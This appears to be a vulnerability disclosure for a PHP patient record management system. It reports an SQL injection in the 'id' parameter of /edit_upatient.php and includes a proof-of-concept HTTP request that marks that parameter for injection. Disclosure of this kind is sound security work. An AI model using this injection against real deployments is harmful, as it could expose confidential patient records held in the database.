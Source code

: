 # health care patient-record-management-system-in-php has sql injection in /edit_upatient.php

## supplier 

https://code-projects.org/patient-record-management-system-in-php-with-source-code/#google_vignette

## Vulnerability parameter

edit_upatient.php

## describe

An unrestricted SQL injection attack exists in patient-record-management-system-in-php in /edit_upatient.php. The parameters that can be controlled are as follows: $id. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of $id parameter is obtained in edit_upatient.php. , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/f72f11d1-477b-419c-ab75-292c5c5d1152)

## POC

```
GET /edit_upatient.php?id=1* HTTP/1.1
Host: healthcarepatientrecordmanagementsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=apub8ggoc8777fmi1n9sbu6ca1
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

**Result**

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
